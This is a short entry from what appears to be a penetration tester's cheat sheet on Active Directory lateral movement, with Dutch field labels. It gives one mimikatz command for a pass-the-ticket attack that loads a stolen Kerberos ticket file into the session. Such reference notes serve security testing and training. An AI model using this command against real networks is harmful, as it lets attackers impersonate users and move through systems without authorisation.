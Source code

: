 # 24. AD Lateral Movement — Entry 35

## Categorie

Pass the Ticket

## Commando

```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

## Omschrijving

Using a ticket with mimikatz

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

